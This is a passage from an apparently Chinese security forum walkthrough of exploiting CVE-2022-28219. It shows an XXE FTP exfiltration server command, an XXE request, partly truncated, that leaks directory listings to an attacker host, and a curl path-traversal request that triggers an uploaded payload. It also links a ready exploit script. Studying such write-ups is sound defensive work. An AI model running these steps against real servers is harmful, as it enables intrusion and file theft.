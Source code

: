 ![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-9c4e4d93ac35baacd47e1b172128a21df977fd04.png)  
BlockingServer 提供文件并保持连接打开，因此临时文件不会被删除。

### 第三步

利用XXE漏洞定位上传payload的文件路径。我们在这里使用 GitHub 项目中的 [XXE FTP](https://github.com/LandGrey/xxe-ftp-server/blob/master/xxe-ftp-server.py) 服务器来泄露目录列表以找到有效负载：  
`python2 xxe-ftp-server.py 192.168.20.151 3000 2121`  
![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-87503c9a2a06415be9692a6dd0471a70729442a3.png)  
发送数据包。

```php
POST /api/agent/tabs/agentData HTTP/1.1
Host: 192.168.20.246:8081
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 393
Content-Type: application/json

[
    {
        "DomainName": "fbi.gov",
        "EventCode": 4688,
        "EventType": 0,
        "TimeGenerated": 0,
        "Task Content": "&lt;?xml version=\"1.0\" encoding=\"UTF-8\"?&gt;     %dtd;]&gt;&amp;send;"
    }
]
```

找到通过ftp上传的临时文件  
![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-38235d84a7396f2ae3f6422aad11e9119260d4fb.png)

### 第四步（触发payload）

```php
curl --path-as-is -v http://192.168.20.246:8081/cewolf/a.png?img=/../../../../../../../../../users/fbi/appdata/local/temp/jar_cache5024000158749136930.tmp
```

![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-149954842c80bcb2937f817ab2f6fc8f79db6ac5.png)  
成功触发payload  
![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-9298caae0631f10a7a2d2f186b38d80950cc52c8.png)

### 五、[集成脚本](https://github.com/horizon3ai/CVE-2022-28219)

win.ini文件内容。  
![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-c85a1f92db212dbb723307adda93998d1c217d0c.png)  
脚本获取win.ini内容
